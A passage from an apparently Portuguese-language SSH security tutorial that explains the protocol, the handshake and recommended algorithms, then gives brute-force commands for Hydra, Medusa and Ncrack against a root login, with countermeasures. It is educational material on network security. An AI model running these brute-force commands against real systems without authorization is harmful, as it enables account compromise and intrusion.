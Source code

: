 **Porta**: 22 (padrão)

**Versões**: 
- SSHv1 (INSEGURO, descontinuado)
- SSHv2 (atual)

#### Estrutura da Conexão SSH

```
Cliente                                    Servidor
   |                                           |
   |---------- TCP 3-way handshake ----------->|
   |                                           |
   |<--------- Protocol Version Exchange ----->|
   |  "SSH-2.0-OpenSSH_8.2"                   |
   |                                           |
   |<----------- Key Exchange (DH) ----------->|
   |  Estabelecer chaves de sessão            |
   |                                           |
   |<--------- Authentication --------------->|
   |  Password, Public Key, etc.              |
   |                                           |
   |<======= Canal Criptografado ============>|
```

**Algoritmos Comuns**:

```bash
# Key Exchange
- diffie-hellman-group-exchange-sha256
- curve25519-sha256
- ecdh-sha2-nistp256

# Host Key
- ssh-ed25519 (recomendado)
- ecdsa-sha2-nistp256
- rsa-sha2-512

# Cipher
- chacha20-poly1305@openssh.com (recomendado)
- aes256-gcm@openssh.com
- aes256-ctr

# MAC
- hmac-sha2-512-etm@openssh.com
- hmac-sha2-256-etm@openssh.com
```

#### Vulnerabilidades e Ataques

**1. SSH Brute Force**

```bash
# Hydra
hydra -l root -P passwords.txt ssh://192.168.1.100

# Medusa
medusa -h 192.168.1.100 -u root -P passwords.txt -M ssh

# Ncrack
ncrack -p 22 --user root -P passwords.txt 192.168.1.100

# Contramedidas:
# 1. Desabilitar password authentication
PasswordAuthentication no

# 2. Permitir apenas chave pública
```